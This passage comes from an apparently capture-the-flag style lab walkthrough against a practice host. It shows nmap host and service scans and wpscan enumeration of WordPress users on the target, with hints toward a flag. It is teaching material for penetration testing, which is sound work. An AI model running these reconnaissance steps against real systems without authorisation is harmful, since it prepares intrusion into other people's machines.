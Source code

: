    Nmap scan report for 192.168.1.115 (192.168.1.115)
    Host is up (0.020s latency).
    MAC Address: 88:E9:FE:65:16:C0 (Unknown)
    ```

   Note that hosts `192.168.1.110` and `192.168.1.115` are up, in particular. This solution focuses on the former.

2. Document all exposed ports and services.

    ```bash
    $ nmap -sV 192.168.1.110
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 16:38 PDT
    Nmap scan report for 192.168.1.110
    Host is up (0.00082s latency).
    Not shown: 995 closed ports
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
    111/tcp open  rpcbind     2-4 (RPC #100000)
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    MAC Address: 00:15:5D:00:04:10 (Microsoft)
    Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
    ```

   Note, in particular, that port `80` is open.

3. Enumerate the WordPress site. One flag is discoverable after this step.
    - **Hint**: Look for the `Users` section in the output.

    ```bash
    # Use wpscan to enumerate users and vulnerable plugins
    $ wpscan –-url http://192.168.1.110/wordpress -eu
    # Generates a lot of output. The important part is as follows:
    [+] User(s) identified:
    [+] steven
      | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)

    [+] michael
      | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
      | Confirmed By: Login Error Messages (Aggressive Detection)
    ```
